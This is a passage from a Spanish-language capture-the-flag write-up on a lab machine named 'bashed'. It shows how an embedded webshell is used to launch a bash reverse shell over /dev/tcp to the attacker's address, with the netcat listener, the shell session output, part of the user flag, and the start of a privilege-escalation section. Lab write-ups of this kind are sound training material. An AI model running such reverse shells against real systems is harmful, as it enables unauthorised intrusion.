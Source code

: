 Vamos a revisar la ruta `dev` y cómo podemos ver encontramos una webshell embebida en la página web, por lo que vamos a aprovechar este recurso para generar una reverse shell y tener un acceso directo desde nuestra máquina.

<p style="text-align: center;">
<img src="/assets/images/bashed/04-page2.png">
</p>

<p style="text-align: center;">
<img src="/assets/images/bashed/05-page3.png">
</p>

En la webshell vamos a ejecutar lo siguiente:

```bash
bash -c "bash -i >%26 /dev/tcp/10.10.1414/4564 0>%261"
```

En nuestra máquina ponemos un listener por el puerto indicado anteriormente, obteniendo acceso al objetivo satisfactoriamente.

```bash
nc -lnvp 4564
listening on [any] 4564 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.68] 45490
bash: cannot set terminal process group (845): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bashed:/var/www/html/dev$ whoami
whoami
www-data
www-data@bashed:/var/www/html/dev$ hostname
hostname
bashed
```

<p style="text-align: center;">
<img src="/assets/images/bashed/06-page4.png"> 
</p>

## FLAG USER

Una vez tenemos acceso a la máquina, tenemos la posibilidad de leer la flag `user` 

```bash
www-data@bashed:/var/www/html/dev$ find / -name user.txt 2>/dev/null
/home/arrexel/user.txt
www-data@bashed:/var/www/html/dev$ head -c 10 /home/arrexel/user.txt; echo
5dda671ad3
```
## ESCALADA DE PRIVILEGIOS SCRIPTMANAGER

Necesitamos escalar privilegios para poder llegar a la flag `root`, así que vamos a enumerar permisos de sudo que tenemos actualmente.
